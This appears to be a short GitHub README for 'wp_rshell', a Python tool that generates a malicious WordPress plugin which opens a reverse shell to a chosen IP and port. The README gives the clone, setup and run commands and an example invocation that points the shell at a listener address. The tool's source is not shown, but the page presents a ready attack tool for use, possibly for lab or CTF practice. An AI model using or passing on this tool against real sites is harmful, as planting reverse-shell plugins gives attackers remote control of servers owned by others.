 # ✅ WordPress reverse shell Plugin Generator

## Installation👇
```
git clone http://github.com/root-tanishq/wp_rshell
```
```
cd wp_rshell
```
```
python3 wp_rshell.py
```

## Tool Usage👇

Usage = `python3 wp_rshell.py [IP] [PORT] [FILE NAME]`

FILE NAME = Plese dont provide extension

Example:-
    `# python3 wp_rshell.py 10.10.11.100 4455 payload`
